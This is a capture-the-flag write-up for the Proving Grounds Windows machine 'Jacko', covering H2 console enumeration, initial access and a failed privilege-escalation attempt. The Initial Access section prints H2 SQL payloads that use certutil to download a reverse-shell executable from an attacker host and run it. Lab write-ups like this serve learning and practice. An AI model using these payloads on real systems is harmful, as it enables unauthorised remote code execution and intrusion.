 ```yaml
---
title: Jacko
date: 2025-04-04
categories:
- Proving Grounds
- Windows
tags:
- Proving Grounds
- Windows
---
```



# Jacko 🔸
<!-- more -->

## Enumeration

![](../assets/Pasted%20image%2020250405000100.png)

Web server is an `H2` Java database welcome page.

![](../assets/Pasted%20image%2020250404235800.png)

At port `8082` we have the console.

![](../assets/Pasted%20image%2020250404235947.png)

## Initial Access

We can access by clicking on connect.

Then we can execute arbitrary commands as seen in [https://www.exploit-db.com/exploits/49384](https://www.exploit-db.com/exploits/49384).

Once all commands are executed, we can upload a reverse shell and execute it.

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.220/reverse.exe C:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\users\\tony\\reverse.exe").getInputStream()).useDelimiter("\\Z").next()');
```

![](../assets/Pasted%20image%2020250405114833.png)

We have a restricted user, so reconstruct the path:

```
set PATH=%PATH%;C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0\;
```

Get the flag.

![](../assets/Pasted%20image%2020250405115147.png)

## Privilege Escalation

Transfer `winpeas`.

We find a `Paperstream IP` program that seems out of the ordinary.

Searching for exploit.

![](../assets/Pasted%20image%2020250405121034.png)

Generate the reverse shell DLL and transfer them to the host.

!!! bug

    It doesn't work with PaperStream method or abusing SeImpersonatePrivilege method (juicypotato, godpotato, printspoofer...)
